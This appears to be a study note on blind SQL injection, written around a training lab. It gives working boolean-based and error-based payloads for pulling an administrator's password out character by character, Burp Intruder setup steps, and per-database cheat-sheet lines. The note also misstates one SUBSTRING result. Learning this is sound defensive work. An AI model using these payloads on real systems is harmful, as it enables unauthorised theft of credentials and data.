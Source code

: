 A blind vulnerability is a security issue where an attacker can exploit a weakness in a system, but the results of the attack are not immediately apparent. Unlike traditional vulnerabilities, the attacker cannot observe the outcome of the attack directly, and instead has to rely on indirect information to determine if the attack was successful. This makes it more challenging for both the attacker and the defender to detect and remediate the vulnerability.

For example, in a SQL injection attack, the attacker can directly observe the results of their injection attempts by modifying the SQL query in such a way that it returns sensitive information from the database. However, in a blind SQL injection attack, the attacker has to guess the results of the injection based on the time delay or the error messages generated by the system.

Blind vulnerabilities can occur in various types of systems and applications, such as web applications, databases, and other types of software. They are often harder to detect and prevent compared to traditional vulnerabilities, making them a significant threat to security. As such, it's important to implement secure coding practices and to perform regular security testing to help identify and remediate these types of vulnerabilities.

With blind SQL injection vulnerabilities, many techniques such as UNION attacks, are not effective because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## what is sql substring
The SQL SUBSTRING function is a built-in string function in Structured Query Language (SQL) used to extract a portion of a string. It returns a new string that is a specified number of characters from a larger string, starting from a specified position. The syntax for the SUBSTRING function is as follows:
```sql
SUBSTRING(string, start_position, length)
```
"string" is the input string from which a portion is to be extracted.

"start_position" is the starting position in the string from where the extraction should begin. "1 base"

"length" is the number of characters to extract.

For example, if you have a string "OpenAI" and you want to extract the first three characters, you can use the following query:
```sql
SELECT SUBSTRING("OpenAI", 1, 3);
```
This will return the result "Open".

## Exploiting blind SQL injection by triggering conditional responses
Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

```php
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
When a request containing a `TrackingId` cookie is processed, the application determines whether this is a known user using an SQL query like this:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, _the application does behave differently depending on whether the query returns any data_. If it returns data (because a recognized `TrackingId` was submitted), then a "Welcome back" message is displayed within the page.

suppose that two requests are sent containing the following TrackingId cookie values in turn this will help us determine the result 1 bit at a time:
```sql
…xyz' AND 1=1 --welcome back
…xyz' AND 1=2 --other responce
```
For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time.

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is s:

```sql 
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
We can continue this process to systematically determine the full password for the `Administrator` user.

## Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.
```sql
Oracle      SUBSTR('foobar', 4, 2)
other       SUBSTRING('foobar', 4, 2)
```
## Lab: Blind SQL injection with conditional responses

to determine password length
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a'--
```
Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".

then find the password by
```sql
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
```
## inducing conditional responses by triggering SQL errors
suppose instead that the application carries out the same SQL query, but does not behave any differently depending on whether the query returns any data. The preceding technique will not work, because injecting different Boolean conditions makes no difference to the application's responses.

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'-- => true
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a'-- =>error
```
This SQL query is using a conditional expression in the form of a "CASE" statement to test if the value of the expression 1=2 is true or false. If the expression is true, the query returns the result of the division 1/0, which would result in a divide by zero error. If the expression is false, the query returns the string value 'a'.

Finally, the result of the CASE statement is compared to the string 'a' using an equality comparison ='a'. If the result of the CASE statement is equal to 'a', the comparison will evaluate to true, otherwise it will evaluate to false.

In this specific case, the expression 1=2 is false, so the result of the CASE statement will be 'a', and the comparison will evaluate to true.

This type of query could potentially be used in a SQL injection attack, if the attacker has the ability to modify the SQL query being executed by the application. By injecting a value that changes the expression in the CASE statement, the attacker could alter the behavior of the query and potentially cause a security vulnerability.

 With the second input, it evaluates to 1/0, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.
 
 ```sql
 xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'--
 ```
 ## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
```sql
Oracle        SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft     SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL    1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
MySQL         SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
